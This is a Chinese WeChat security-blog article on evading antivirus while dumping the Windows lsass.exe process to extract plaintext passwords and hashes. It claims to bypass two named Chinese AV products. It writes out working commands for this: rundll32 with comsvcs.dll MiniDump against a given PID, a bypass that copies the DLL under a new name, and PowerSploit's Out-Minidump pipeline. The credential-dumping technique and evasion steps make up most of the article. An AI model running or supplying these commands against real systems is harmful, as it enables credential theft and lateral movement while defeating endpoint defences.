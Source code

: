 ##  免杀转储lsass进程技巧

原创 Tubai  [ 花指令安全实验室 ](javascript:void\(0\);)

**花指令安全实验室** ![]()

微信号 junk-code

功能介绍 专注于红蓝安全攻防研究的优质平台

____

__

收录于话题

在渗透测试中，最常用的方法是通过dump进程lsass.exe，从中获得明文口令和hash,今天分享两个免杀转储lsass方式，目前亲测可过某60 or
某绒。  
  
第一种：  
comsvcs.dll，系统自带。

在原理上都是使用API MiniDumpWriteDump，通过comsvcs.dll的导出函数MiniDump实现dump内存。

  *   *   *   *   *   *   *   *   * 

    
    
    BOOL MiniDumpWriteDump(  HANDLE                            hProcess,  DWORD                             ProcessId,  HANDLE                            hFile,  MINIDUMP_TYPE                     DumpType,  PMINIDUMP_EXCEPTION_INFORMATION   ExceptionParam,  PMINIDUMP_USER_STREAM_INFORMATION UserStreamParam,  PMINIDUMP_CALLBACK_INFORMATION    CallbackParam);

 **注意权限的问题：**

在dump指定进程内存文件时，需要开启SeDebugPrivilege权限。管理员权限的cmd下，默认支持SeDebugPrivilege权限，但是状态为Disabled禁用状态。  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817101653.png)

这里直接在cmd下执行rundll32的命令尝试dump指定进程内存文件时，由于无法开启SeDebugPrivilege权限，所以会失败。

 **解决方式：  
**

管理员权限的powershell下，默认支持SeDebugPrivilege权限，并且状态为Enabled

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817101705.png)

可以通过powershell执行rundll32的命令实现。  
首先查看lsass.exe进程PID:  
  

![]()

命令格式：

  * 

    
    
    rundll32.exe comsvcs.dll MiniDump <lsass PID> <out path> full

直接利用发现会被拦截：  

  * 

    
    
    rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 564 lsass.dmp full

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817101706.png)

  

简单的绕过思路：

copy一下comsvcs.dll并命名为随意名字，例如tubai.dll  

  *   * 

    
    
    copy C:\windows\System32\comsvcs.dll tubai.dllrundll32.exe tubai.dll, MiniDump 564 lsass.dmp full

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817101707.png)

如图，成功转储了lsass  
第二种：  
PowerSploit 的一个模块Out-MiniDump是一个基于 Powershell 的渗透工具包，可以选择创建进程的完整内存转储。  
导入  

  * 

    
    
    Import-Module Out-MiniDump

执行  

  * 

    
    
    Get-Process lsass | Out-Minidump

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817101708.png)

总结：

转储姿势很多，应该一起向编写一个程序来手动转储 LSASS 进程才是硬道理。

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

免杀转储lsass进程技巧

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

[知道了](javascript:;)

**长按识别前往小程序**

![]()

